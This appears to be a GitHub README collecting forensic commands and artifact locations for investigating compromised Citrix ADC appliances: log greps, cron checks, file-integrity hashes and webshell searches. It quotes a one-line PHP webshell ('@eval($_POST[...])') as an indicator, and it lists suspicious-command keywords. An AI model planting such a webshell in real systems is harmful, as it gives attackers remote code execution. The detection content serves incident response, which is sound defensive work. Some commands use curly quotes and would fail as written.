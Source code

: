 # Citrix ADC Forensics
This repository provides a comprehensive list of commands & artifacts to search for while performing a forensic investigation on Citrix ADC appliances. Contributions are welcome.<br>

# To-Do
I will make a wrapper around these commands and provide an `.sh` file.

# Forensics

Generally located log files:
```
/var/log/*
```

Failed authentication attempts
```
zcat /var/log/ns.log.*.gz | grep "Authentication is rejected" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; print $0}' | sort | uniq -c | sort -nr
```

SSH logs
```
zcat /var/log/auth.log.*.gz | grep -i "sshd" | grep -i "accepted password" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; sub(/^[[:space:]]+/, ""); print "Accepted password for " $0}' | uniq -c | sort -nr
```

Search for suspicious commands
```
curl
hostname
uname
nobody
whoami
id
```

Search for suspicious activity in the http logs
```
/var/log/httpaccess.log
/var/log/httperror.log
```

Look for suspicious files in these directories. Payloads are often placed here.
```
/netscaler/portal/templates
/var/tmp/netscaler/portal/templates
```

Look for processes and child processes
```
ps aux
ps aux | grep nobody
```

Look for cronjobs and also the cron history
```
crontab -l -u nobody
crontab -l -u nsroot
crontab -l -u root

/var/log/cron
```

Look for unauthorized modifications to the crontab file and/or existence of suspicious files in /var/cron/tabs and other locations
```
find / -type f -name “res*” | grep -E ‘res($|\.[a-z]{3})$’
```

Check the file integrity with a md5 sum. Compare them with a 100% secure ADC.
```
cd /netscaler ; for i in “nsppe nsaaad nsconf nsreadfile nsconmsg”; do md5 ${i} ; done
```

Check for APT5 techniques. This should provide no output. If yes, potential compromise.
```
procstat –v $(pgrep –o –i nsppe) | grep “0x10400000 “ | grep “rwx”
```

Check for unusual administrator activity. You can look for the `pb_policy` in the `ns.log` file.
```
Example:

<local0.info> [hostname] pb_policy: Changing pitboss policy from X to Y
<local0.info> [hostname] pb_policy: Changing pitboss policy from Y to X

X & Y are constant values for you system
```

Check for potential PHP WebShells
```
/var/netscaler/logon/LogonPoint/uiareas/[FILE].php


content could be something like this:
<?php http_response_code(201); @eval($_POST[5]);

Look out in the httpaccess.log file for POST requests for the /logon/LogonPoint URL

Commmand1

fgrep -a -e http_response_code -e '$_POST' -r /var/netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command2

fgrep -a -e http_response_code -e '$_POST' -r /var/vpn/ | fgrep -v -e' /var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command3

fgrep -a -e http_response_code -e '$_POST' -r /netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'
```

Check for php files excluding folders that have PHP files from them by default
```
find / -type f -name *.php* -not -path "/var/netscaler/gui/admin_ui/*" -not -path "/netscaler/websocketd/*" -not -path "/netscaler/ns_gui/admin_ui/*"
```

Search for *setuid* binaries. This is a setuid Privilege Escalation technique.
```
find / -perm -4000 -user root -exec ls -lc {} \;

normal files which have the setuid bit set

-r-sr-xr-x 1 root wheel 27872 Jul 10 18:24 /netscaler/ping   
-r-sr-xr-x 1 root wheel 32656 Jul 10 18:24 /netscaler/ping6   
-r-sr-xr-x 1 root wheel 31844 Jul 10 18:24 /netscaler/traceroute  
-r-sr-xr-x 1 root wheel 24784 Jul 10 18:24 /netscaler/traceroute6   
-r-sr-xr-- 1 root operator 10584 Jul 10 18:09 /sbin/mksnap_ffs   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/shutdown   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/poweroff   
-r-sr-xr-x 1 root wheel 34352 Jul 10 18:09 /usr/bin/crontab   
-r-sr-xr-x 1 root wheel 11632 Jul 10 18:09 /usr/bin/lock   
-r-sr-xr-x 1 root wheel 24552 Jul 10 18:09 /usr/bin/login   
-r-sr-xr-x 1 root wheel 9736 Jul 10 18:09 /usr/bin/passwd   
-r-sr-xr-x 1 root wheel 16408 Jul 10 18:09 /usr/bin/su   
-r-sr-xr-x 1 root wheel 74008 Jul 10 18:09 /usr/libexec/ssh-keysign
```

# Launch the THOR APT Scanner
[@Neo23x0](https://github.com/Neo23x0) a.k.a Florian Roth did a pretty good guide on how to use the free version of the THOR APT Scanner to scan the Citrix ADC.<br><br>
Follow the link: https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/


# References
2024-01-26, https://trustedsec.com/blog/netscaler-remote-code-execution-forensics<br>
2024-01-26, https://www.mandiant.com/resources/blog/session-hijacking-citrix-cve-2023-4966<br>
2024-01-26, https://support.citrix.com/article/CTX227560/citrix-adc-logs-collection-guide<br>
2024-01-26, https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-201a<br>
2024-01-26, https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/<br>
2024-01-26, https://media.defense.gov/2022/Dec/13/2003131586/-1/-1/0/CSA-APT5-CITRIXADC-V1.PDF<br>
